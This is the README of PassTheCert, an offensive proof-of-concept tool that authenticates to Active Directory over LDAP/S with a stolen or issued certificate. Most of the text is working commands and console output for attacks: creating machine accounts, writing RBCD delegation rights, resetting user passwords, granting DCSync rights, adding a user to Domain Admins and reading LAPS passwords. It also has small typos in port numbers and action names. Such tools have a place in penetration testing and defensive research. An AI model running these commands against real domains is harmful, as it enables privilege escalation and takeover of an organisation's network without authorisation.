 # PassTheCert

Sometimes, Domain Controllers do not support PKINIT. This can be because their
certificates do not have the `Smart Card Logon EKU`. However, several
protocols, including LDAP, support Schannel, thus authentication through TLS.
We created a small Proof-of-Concept tool that allows authenticating against an
LDAP/S server with a certificate to perform different attack actions.

More information in the [accompanying blog post](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html).

This repository contains a Python version, by [ThePirateWhoSmellsOfSunflowers](https://github.com/ThePirateWhoSmellsOfSunflowers) / drm ([@lowercase_drm](https://twitter.com/lowercase_drm))

This POC implements LDAP certificate authentication for two impacket scripts:
[addcomputer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py)
and [rbcd.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rbcd.py).
You can perform LDAP certificate authentication both on port 686 and 389 (via a
StarTLS command). Please note that you need a functional LDAPS service on the
targeted domain controller to successfully use StartTLS on the LDAP port.

More information in the [accompanying blog post](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html).

If you use [Certipy](https://github.com/ly4k/Certipy) to retrieve certificates, you can extract key and cert from the pfx by using:

```console
$ certipy cert -pfx user.pfx -nokey -out user.crt
$ certipy cert -pfx user.pfx -nocert -out user.key
```

Usage
-----

```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

usage: passthecert.py [-h] [-debug] [-port {389,636}]
                      [-action [{add_computer,del_computer,modify_computer,read_rbcd,write_rbcd,remove_rbcd,flush_rbcd,modify_user,whoami,ldap-shell}]]
                      [-target sAMAccountName] [-new-pass [Password]] [-elevate] [-baseDN DC=test,DC=local]
                      [-computer-group CN=Computers] [-domain test.local] [-domain-netbios NETBIOSNAME]
                      [-computer-name COMPUTER-NAME$] [-computer-pass password]
                      [-delegated-services cifs/srv01.domain.local,ldap/srv01.domain.local] [-delegate-to DELEGATE_TO]
                      [-delegate-from DELEGATE_FROM] [-dc-host hostname] [-dc-ip ip] -crt user.crt -key user.key

Manage domain computers and perform RBCD attack via LDAP certificate authentication

options:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON
  -port {389,636}       Destination port to connect to. LDAPS (via StartTLS) on 386 or LDAPS on 636.

Action:
  -action [{add_computer,del_computer,modify_computer,read_rbcd,write_rbcd,remove_rbcd,flush_rbcd,modify_user,whoami,ldap-shell}]

Manage User:
  -target             sAMaccountnames   sAMAccountName of user to target.
  -new-pass           [Password]        New password of target.
  -elevate                              Grant target account DCSYNC rights

Manage Computer:
  -baseDN             DC=test,DC=local  Set baseDN for LDAP.If omitted, the domain part (FQDN) specified in the account parameter will be used.
  -computer-group     CN=Computers      Group to which the account will be added.If omitted, CN=Computers will be used,
  -domain             test.local        Target domain fqdn
  -domain-netbios     NETBIOSNAME       Domain NetBIOS name. Required if the DC has multiple domains.
  -computer-name      COMPUTER-NAME$    Name of computer to add.If omitted, a random DESKTOP-[A-Z0-9]{8} will be used.
  -computer-pass      password          Password to set to computer. If omitted, a random [A-Za-z0-9]{32} will be used.
  -delegated-services cifs/srv01.domain.local,ldap/srv01.domain.local Services to configure in constrained delegation to configure to the new computer (no space in the list)

RBCD attack:
  -delegate-to        DELEGATE_TO       Target computer account the attacker has at least WriteProperty to
  -delegate-from      DELEGATE_FROM     Attacker controlled machine account to write on the msDS-Allo[...] property (only when using `-action write`)

Authentication:
  -dc-host hostname     Hostname of the domain controller to use. If omitted, the domain part (FQDN) specified in the account
                        parameter will be used
  -dc-ip ip             IP of the domain controller to use. Useful if you can't translate the FQDN.
  -crt user.crt         User's certificate
  -key user.key         User's private key

```

Actions
-------
* Manage Computer
  * `add_computer`: Add a computer to the domain
  * `del_computer`: Delete a computer from the domain
  * `modify_computer`: Modify the password of the computer

* Manage User
  * `forcePWDchange` : Modify the password of the user

* Constrained delegation attack
  * `add_computer -delegated-services`: Add a computer configured with constrained delegated services store in `msDS-AllowedToDelegateTo` new computer's attributes.

* RBCD attack
  * `read_rbcd`: Read `msDS-AllowedToActOnBehalfOfOtherIdentity` and resolve SIDs to `sAMaccountnames`
  * `write_rbcd`: Write new SIDs to `the msDS-AllowedToActOnBehalfOfOtherIdentity`
  * `remove_rbcd`: Remove specific entries
  * `flush_rbcd`: Flush all entries

* Misc
  * `whoami`: Return the user represented by the certificate
  * `ldap-shell`: Authenticate with the certificate via Schannel against LDAP and spawn an interactive LDAP shell

Examples
--------

Create a computer via LDAPS:

```console
$ python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

[*] Successfully added machine account DESKTOP-CKDRXFUX$ with password dzy3pjZqEH6f4Igql5dp4I5Dx8uA4PrV.
```

Create a computer via LDAPS with custom name/password:

```console
$ python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -computer-name OFFSECMACHINE$ -computer-pass SheSellsSeaShellsOnTheSeaShore
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

[*] Successfully added machine account OFFSECMACHINE$ with password SheSellsSeaShellsOnTheSeaShore.
```

Create a computer via LDAPS with custom name and with constrained delegated services configured (cifs and ldap over SRV-MAIL.domain.local):

```console
$ python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -computer-name OFFSECMACHINE$ -delegated-services cifs/SRV-MAIL.domain.local,ldap/SRV-MAIL.domain.local
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

[+] Adding constrained delegations to the new computer object: cifs/SRV-MAIL.domain.local,ldap/SRV-MAIL.domain.local
[*] Successfully added machine account OFFSECMACHINE$ with password kUwdbHeuTw64QvaLzUYHrjfgE7hrRigS
```

Add a delegation right via StartTLS on port 389:

```console
$ python3 passthecert.py -action write_rbcd -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -port 389 -delegate-to DESKTOP-CKDRXFUX$ -delegate-from SRV-MAIL$
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] SRV-MAIL$ can now impersonate users on DESKTOP-CKDRXFUX$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     SRV-MAIL$    (S-1-5-21-XXXXXXXXX-YYYYYYYYYY-WWWWWWWW-1109)
```

Change a password of a user 

```console
$ python3 passthecert.py -action modify_user -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -target user_sam -new-pass
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

[*] Successfully changed kpayne password to: ZqIrfZdt02OIq5Ek0ZZPcQKRWKEMEOKB
```

Elevate a user for DCSYNC

```console
$ python3 passthecert.py -action modify_user -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -target user_sam -elevate
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

[*] Granted user 'user_sam' DCSYNC rights!
```

Spawn an interactive LDAP shell and add a user to a specific domain group

```console
$ python3 passthecert.py -action ldap-shell -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

# add_user_to_group user_sam "Domain Admins"
Adding user: user_sam to group Domain Admins result: OK
```

*Note: The above example assumes that the domain account for which the certificate was issued, holds privileges to add users to the target domain group.*

Spawn an interactive LDAP shell and retrieve all groups the user is a member of

```console
$ python3 passthecert.py -action ldap-shell -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

# get_user_groups user_sam
CN=Domain Admins,CN=Users,DC=plak,DC=local
```

Spawn an interactive LDAP shell and retrieve the LAPS password of a specific computer

```console
$ python3 passthecert.py -action ldap-shell -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

# get_laps_password SRV-MAIL$
Found Computer DN: CN=SRV-MAIL,OU=Mail,OU=Standard,OU=Servers,DC=domain,DC=local
LAPS Password: #x0i{S4UF%42x50
```

*Note: The above example assumes that the domain account for which the certificate was issued, holds privileges to read LAPS passwords in the domain.*

Credits
-------

- [JaGoTu (@jagotu)](https://twitter.com/jagotu) for [addcomputer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py)
- [Remi Gascou (@podalirius_)](https://twitter.com/podalirius_) and [Charlie Bromberg (@_nwodtuhs)](https://twitter.com/_nwodtuhs) for [rbcd.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rbcd.py)
- [Impacket](https://github.com/SecureAuthCorp/impacket) by [SecureAuth](https://www.secureauth.com/)
